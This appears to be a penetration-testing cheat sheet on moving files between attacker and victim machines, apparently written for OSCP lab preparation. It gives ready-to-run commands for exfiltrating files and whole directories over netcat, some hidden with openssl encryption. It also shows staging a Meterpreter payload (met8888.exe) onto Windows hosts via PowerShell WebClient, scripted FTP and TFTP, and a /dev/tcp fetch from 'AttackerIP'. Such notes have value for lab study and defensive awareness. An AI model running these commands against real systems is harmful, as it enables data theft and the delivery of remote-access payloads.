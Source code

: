 ## Over SMB

- [https://github.com/SecureAuthCorp/impacket/blob/master/impacket/smbserver.py-](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/smbserver.py)

```
python impacket-smbserver.py test1 `pwd`
smbclient -L <local-ip> --no-pass
```

```
net view \\10.10.14.9
\\10.10.14.9\test1\test.exe
```

## Over NetCat

```
cat file.txt | nc 192.168.1.123 34567
```

```
nc -l -p 34567 > file.txt
```

## Tar over NetCat

```
# Send one file
tar cfv - file | nc 192.168.1.123 34567

# Send multiple files
tar cfv - file1 file2 file3 | nc 192.168.1.123 34567

# Send multiple files
tar cfv - *.doc | nc 192.168.1.123 34567

# Send this dir and subdirectories
tar cfv - * | nc 192.168.1.123 34567

# Send a specified directory
tar cfv - important_stuff/ | nc 192.168.1.123 34567

# Send a specified directory and maintain absolute dir structure
tar cfv - /home/joe | nc 192.168.1.123 34567
```

```
nc -l -p 34567 | tar xfv -
```

## GZIP over NetCat

```
tar cfv - file1 file2 file3 | gzip -c | nc 192.168.1.123 34567
```

```
nc -l -p 34567 | gunzip -c | tar xfv -
```

## Encrypted Tar over NetCat

```
openssl rand 9999 | shasum
```

```
tar cfv - secret_file.*.txt | gzip -c | openssl enc -aes-256-cbc -salt -k a8280ba2ebc37d03bb0ffdb097ccdf7d5f56a8cd  -md md5 | nc 10.100.1.27 45678
```

```
nc -l -p 45678 | openssl enc -aes-256-cbc -d -k a8280ba2ebc37d03bb0ffdb097ccdf7d5f56a8cd -md md5 | gunzip -c | tar xfv -
```

## Encrypted Tar over NetCat as Base64

```
tar cfv - secret_file.*.txt | gzip -c | openssl enc -aes-256-cbc -salt -a -k a8280ba2ebc37d03bb0ffdb097ccdf7d5f56a8cd -md md5 | nc 10.100.1.27 45678
```

```
nc -l -p 45678 | openssl enc -aes-256-cbc -d -a -k a8280ba2ebc37d03bb0ffdb097ccdf7d5f56a8cd -md md5 | gunzip -c | tar xfv -
```

## Pull file using NetCat

```
nc -q0 -l -p 5454 < potential_attack_vectors.txt
```

```
nc 192.168.100.185 5454 > potential_attack_vectors.txt
```

## Over HTTP

```
python -m SimpleHTTPServer  
```

```
(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')
```

```
(echo -e "GET /filename_you_are_moving HTTP/0.9\r\n\r\n" \
1>&3 & cat 0<&3) 3 /dev/tcp/AttackerIP/80 \
| (read i; while [ "$(echo $i | tr -d '\r')" != "" ]; \
do read i; done; cat) > local_filename
```



## Over FTP

```
apt-get install python-pyftpdlib  
```

```
python -m pyftpdlib -p 21
OR
auxiliary/server/ftp
```

ftp_commands.txt:

```
open 10.9.122.8  
anonymous  
whatever  
binary  
get met8888.exe  
bye  
```

```
ftp -s:ftp_commands.txt
```

```
echo open 10.9.122.8>ftp_commands.txt&echo anonymous>>ftp_commands.txt&echo password>>ftp_commands.txt&echo binary>>ftp_commands.txt&echo get met8888.exe>>ftp_commands.txt&echo bye>>ftp_commands.txt&ftp -s:ftp_commands.txt
```

## Over TFTP

```
apt-get install atftpd
service atftpd start
```

```
auxiliary/server/tftp
```

```
pkgmgr /iu:"TFTP"  
tftp -i 10.9.122.8 GET met8888.exe
tftp -i 10.9.122.8 PUT met8888.exe
```



## References

- [https://h4ck.co/oscp-journey-exam-lab-prep-tips/](https://h4ck.co/oscp-journey-exam-lab-prep-tips/)
